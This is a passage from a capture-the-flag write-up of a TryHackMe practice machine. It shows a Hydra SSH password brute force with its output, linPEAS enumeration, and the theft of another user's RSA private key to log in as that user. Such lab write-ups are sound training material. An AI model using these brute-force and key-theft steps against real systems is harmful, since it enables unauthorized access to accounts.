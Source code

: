 The web server directory files we found earlier gave us the initial of one of the users with a weak password and based on the information obtained through `enum4linux` we can guess which one that is, we will therefore be using it with `hydra` to brute force its password.

```
╭─root@kali ~  
╰─➤  hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.192.97
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-14 23:19:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.192.97:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 121.67 tries/min, 365 tries in 00:03h, 14344036 to do in 1964:57h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 10.10.192.97   login: jan   password: ******
1 of 1 target successfully completed, 1 valid password found
```

<br />
<br />

## 5. Privilege escalation

<br />

Having successfully connected using the credentials `hydra` gave us, we can look around the system for potential misconfugurations we can take advantage of. Fortunately, there are numerous programs, such as [`linPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), that automate this process for us and provide a detailed analysis of the results.

Since we have a user's credentials, we can `scp` the file from our machine to the target - Alternatively, we can set up a temporary server locally which we can use to download the file from using the SSH shell on the target machine. My rule of thumb is to place temporary files remotely under the `/tmp` folder since most users have full access to it, however you can feel free to use any other directory allowing you to execute files.

After running the program there is a lot of information to go through, however a common misconfiguration stands out. The user we are currently connected with has access to the other user's `.ssh` folder and can read through their RSA keys!

Based on this, we can copy the contents of the `id_rsa` private key to a local file and use that to connect to the target impersonating the user this key belongs to. 

Before doing so and to avoid any issues, please ensure the permissions on the local RSA file we created are set to `600` for `read & write`.

```
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  chmod 600 kay_id_rsa 
╭─root@kali ~/TryHackMe/Machines/Basic Pentesting/.ssh  
╰─➤  ssh -i kay_id_rsa kay@10.10.192.97
Enter passphrase for key 'kay_id_rsa':
```
